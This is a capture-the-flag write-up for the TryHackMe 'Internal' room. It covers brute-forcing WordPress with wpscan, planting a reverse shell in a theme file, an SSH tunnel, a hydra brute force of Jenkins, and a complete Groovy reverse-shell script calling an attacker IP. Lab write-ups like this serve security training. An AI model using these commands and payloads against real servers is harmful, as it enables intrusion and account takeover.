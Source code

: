 ```yaml
---
layout: default
title: Internal
description: THM - Internal
---
```


## Enumeration

Nmap Scan:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 21:21 EEST
Nmap scan report for 10.10.61.56
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.14 seconds
```

Gobuster:
```
/blog       (Status: 301) [Size: 309]
/wordpress	 (Status: 301) [Size: 314]
/javascript	(Status: 301)
```
WPscan:
```
wpscan --url http://10.10.61.56/blog/ --enumerate u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
This would be a good time to add “internal.thm” to your “/etc/hosts”.

Now, while I look around on the pages for any clues (CTFs am i right?), I'll start wpscan to bruteforce the wordpress login.

While I was looking around, wpscan found something.
```
[!] Valid Combinations Found:
 | Username: admin, Password: [REDACTED]
```
And we logged in!

Now we'll navigate to “Appearance/Theme Editor” and replace the “404.php” file contents with a php shell. I'll use the one from PentestMonkey.

The theme is Twenty Seventeen, so our shell will be located at 
```
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```
Now we got our shell:
```
# nc -lvnp 9002            
Listening on 0.0.0.0 9002
Connection received on 10.10.61.56 39104
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:37:53 up 18 min,  0 users,  load average: 0.00, 0.05, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ 

```

I recommend checking out “Full TTYs” from hacktricks -> [Right Here](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

We cd into “/home”, and have a look around.
```
www-data@internal:/$ cd /home
cd /home
www-data@internal:/home$ ls
ls
aubreanna
www-data@internal:/home$ cd aubreanna
cd aubreanna
bash: cd: aubreanna: Permission denied
www-data@internal:/home$
```
As you can see, we don't have permission to look inside “aubreanna”

We'll also check “/opt” as it's good practice.
```
www-data@internal:/opt$ ls
ls
containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:[REDACTED]
www-data@internal:/opt$
```
Cool, now we have aubreanna's login info. The text file indicates wordpress access, but we already have that. So let's try to ssh into the machine using those credentials.

```
aubreanna@internal:~$ whoami
aubreanna
```
We'll read “user.txt”, submit it, and then move on.
```
aubreanna@internal:/home$ cd aubreanna/
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
[REDACTED]
aubreanna@internal:~$ 

```
We've also found a "jenkins.txt" file, let's see what's inside.
```
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

Ok, we have an internal service running. Now we need to access it.

A quick look on superuser.com, talks about forwarding / ssh tunneling. As we need to access an internal service from the outside.

And so, we create an ssh tunnel:
```
ssh -N -L 5555:172.17.0.2:8080 aubreanna@10.10.61.56
```
And if we navigate to localhost:5555, we got access to a jenkins webpage.

Default credentials, or at least those that I knew of, were not working, so I'll capture the login request in burp, and then use hydra to try and bruteforce it.
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 5555 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
```
[5555][http-post-form] host: 127.0.0.1   login: [REDACTED]   password: [REDACTED]
```
Cool! Now we'll login, and abuse the jenkins script console to get a reverse shell again.

We'll run this script in the “http://localhost:5000/script”:
```
String host="10.18.116.220";
int port=5554;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
```
nc -lvnp 5554
Listening on 0.0.0.0 5554
Connection received on 10.10.61.56 56022
python -c 'import pty; pty.spawn("/bin/bash")'
jenkins@jenkins:/$ 
```
And we have another shell!

Snooping around a bit, we find this:
```
jenkins@jenkins:/$ cd /home
cd /home
jenkins@jenkins:/home$ ls
ls
jenkins@jenkins:/home$ cd /opt
cd /opt
jenkins@jenkins:/opt$ ls
ls
note.txt
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:[REDACTED]
jenkins@jenkins:/opt$ 
```
Looks like we have the root password. Let's try to ssh using these credentials.

```
Last login: Mon Aug  3 19:59:17 2020 from 10.6.2.56
root@internal:~# id
uid=0(root) gid=0(root) groups=0(root)
root@internal:~#
```

All there's left to do, is to read the “/root/root.txt” file, and you're done!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/internal)

[back](./)
